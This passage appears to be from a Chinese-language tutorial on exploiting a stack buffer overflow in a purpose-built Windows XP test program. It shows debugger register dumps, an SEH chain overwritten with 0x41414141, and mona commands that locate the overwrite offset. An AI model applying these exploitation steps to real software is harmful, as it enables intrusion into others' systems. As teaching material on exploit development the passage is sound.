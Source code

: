 ```

```

char buffer[500]是为了开辟足够大的空间

程序运行后

```
EAX 7EFEFEFE
ECX 0012FC94 ASCII "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
EDX 41414141
EBX 7FFD6000
ESP 0012FBA4
EBP 0012FE08
ESI 004261A9 aaaa.004261A9
EDI 00130000 ASCII "Actx "
EIP 004013D1 aaaa.004013D1
C 0  ES 0023 32bit 0(FFFFFFFF)
P 1  CS 001B 32bit 0(FFFFFFFF)
A 0  SS 0023 32bit 0(FFFFFFFF)
Z 1  DS 0023 32bit 0(FFFFFFFF)
S 0  FS 003B 32bit 7FFDF000(FFF)
T 0  GS 0000 NULL
D 0
O 0  LastErr ERROR_SUCCESS (00000000)
EFL 00010246 (NO,NB,E,BE,NS,PE,GE,LE)

----------------------------------------------

SEH chain of main thread
Address    SE handler
0012FDFC   aaaa.004134A0
0012FFB0   41414141
41414141   *** CORRUPT ENTRY ***

```

可以看到seh已经被覆盖,用mona插件计算从缓冲区到seh的距离.  
`!mona pattern_create 300`生成长度为300的随机字符串,替换为shellcode,再溢出一次,执行`!mona findmsp`

```
================================================================================
----------------------------------------------------------------------------------------------------------------------------------
 Module info :
----------------------------------------------------------------------------------------------------------------------------------
 Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
----------------------------------------------------------------------------------------------------------------------------------
 0x7c920000 | 0x7c9b3000 | 0x00093000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
 0x7c800000 | 0x7c91e000 | 0x0011e000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
 0x00400000 | 0x0042f000 | 0x0002f000 | False  | False   | False |  False   | False  | -1.0- [aaaa.exe] (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
----------------------------------------------------------------------------------------------------------------------------------
[+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x0042609c (length 300 bytes)
    Cyclic pattern (normal) found at 0x0012fbe4 (length 300 bytes)
    -  Stack pivot between 96 & 396 bytes needed to land in this pattern
    Cyclic pattern (normal) found at 0x0012fe44 (length 300 bytes)
    -  Stack pivot between 704 & 1004 bytes needed to land in this pattern
```